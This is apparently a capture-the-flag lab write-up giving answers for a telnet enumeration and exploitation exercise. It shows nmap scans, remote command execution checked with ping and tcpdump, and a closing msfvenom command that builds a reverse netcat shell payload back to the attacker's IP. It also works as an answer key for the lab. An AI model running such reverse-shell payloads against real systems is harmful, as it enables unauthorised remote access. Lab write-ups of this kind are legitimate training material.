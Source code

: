 
## Task 6 - Enumerating Telnet

### How many ports are open on the target machine?    
Did `nmap -T4 -p- 10.10.211.216`
And found one open.

### What port is this?
8012

### This port is unassigned, but still lists the protocol it's using, what protocol is this?     
It is using 'tcp'

### Now re-run the nmap scan, without the -p- tag, how many ports show up as open?
0

### Based on the title returned to us, what do we think this port could be used for?
Did `telnet 10.10.211.216 8012`.

'SKIDY'S BACKDOOR' suggests it could be used for 'a backdoor'

### Who could it belong to? Gathering possible usernames is an important step in enumeration.
'Skidy'


## Task 7 - Exploiting telnet

### Great! It's an open telnet connection! What welcome message do we receive?
`SKIDY'S BACKDOOR.`

### Let's try executing some commands, do we get a return on any input we enter into the telnet session? (Y/N)
N

### Now, use the command "ping [local THM ip] -c 1" through the telnet session to see if we're able to execute system commands. Do we receive any pings?
Did `sudo tcpdump ip proto \\icmp -i tun0` on my kali machine.

Then did `.RUN ping 10.4.38.142 -c 1` on the vulnerable machine.

### What word does the generated payload start with?
Did `msfvenom -p cmd/unix/reverse_netcat lhost=10.4.38.142 port=4444 R`
